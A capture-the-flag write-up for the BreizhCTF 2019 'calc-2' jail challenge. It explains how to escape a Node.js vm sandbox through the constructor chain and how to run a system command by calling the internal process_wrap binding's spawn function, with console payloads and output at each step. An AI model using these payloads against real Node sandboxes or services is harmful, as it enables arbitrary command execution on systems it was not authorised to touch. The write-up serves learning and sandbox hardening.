 ```yaml
---
title: BreizhCTF 2019 - calc-2
authors: dabi0ne
layout: writeup
ctf_url: https://www.breizhctf.com/
---
```

Solves: 0 / Points: 400 / Category: Jail

## Challenge description 
See challenge source code [here](/assets/calc2.js)

## Challenge resolution
Our goal is to execute a system command to obtain the flag.

### Step one : Escape from the vm
To escape from the vm we will use constructor of constructor to create an anonymous function with controlled body.

This is a simple example using Firefox JS console :
```js
>> this.constructor.constructor("alert(1)")
function anonymous()
>> this.constructor.constructor("alert(1)").toString()
"function anonymous(
) {
alert(1)
}"
```

Using this technique we can execute code outside vm context.
Indeed, the this object when it returned by calling constructor is not restricted to log function :
```js
>> log(this.constructor.constructor('return this')());
> EOF
[Function: anonymous]
Object [global] {
  global: [Circular],
  process:
   process {
     title: 'nodejs',
     version: 'v10.15.2',
.
.
.
  setImmediate:
   { [Function: setImmediate] [Symbol(util.promisify.custom)]: [Function] },
  setInterval: [Function: setInterval],
  setTimeout:
   { [Function: setTimeout] [Symbol(util.promisify.custom)]: [Function] } }
```

Comparing to the vm context :
```js
> log(this);
> EOF
{ log: [Function] }
```


### Step two : Execute a shell command

The process.mainModule of the script was cleaned so we didn't have access to "require" function :
```js
/* remove mainModule for better security */
process.mainModule = {};
```

However, we identified that the binding function is available on the object returned by the constructor :
```js
> log(this.proc = this.constructor.constructor('return this.process')());

binding: [Function: binding]
```
The binding function allows loading internal modules. 
Firstly we tried to read the flag from the file using the "fs" module :
```js
> log(this.constructor.constructor('return this.process.binding')()('fs')
```
Fail :( 

But we were able to list directories and identify flag's location :

```js
> log(this.constructor.constructor('return this.process.binding')()('fs').readdir('/home/guest', {}, "","", function (err, data) {data}));
```

After a tip from the challenge author : "you don't have child_process and it exec function, so write it"


So let's read nodejs source code on Github :

https://github.com/nodejs/node/blob/master/lib/internal/child_process.js

The outcome is that the child_process use an internal binding of process_wrap to execute commands by calling the spawn function : 

```js
const { Process } = internalBinding('process_wrap');

child.spawn({
    file: opts.file,
    args: opts.args,
    cwd: options.cwd,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!options.windowsVerbatimArguments,
    detached: !!options.detached,
    envPairs: opts.envPairs,
    stdio: options.stdio,
    uid: options.uid,
    gid: options.gid
});
```

Hence, we have to create a Process object and call it spawn function to execute system commands :

1 - Check if the binding doesn't fail : 
```js
> log(this.constructor.constructor('return this.process.binding')()('process_wrap'));
> EOF
{ Process: [Function: Process] }

```
2 - Instantiate a Process object :
```js
> log(this.proc_wrap = this.constructor.constructor('return this.process.binding')());
> log(this.Process = this.proc_wrap('process_wrap').Process);
> log(this.process = new Process());
```

3 - Call the spawn function with the good parameters :

```js
> log(this.env = this.constructor.constructor('return this.process.env')());
> log(this.mproc  = this.constructor.constructor('return this.process')());
> log(this.sot = this.constructor.constructor('return this.process.stdout')());
> log(this.sin = this.constructor.constructor('return this.process.stdin')());
> log(this.rc = process.spawn({file:'/home/guest/flag_reader',args:[],cwd:"/home/guest",windowsVerbatimArguments:false,detached:false,envPairs:this.env, stdio:[mproc.stdin, mproc.stdout, mproc.stderr]}));

> EOF

breizctf_flag{FORGOTTEN_FLAG}
```

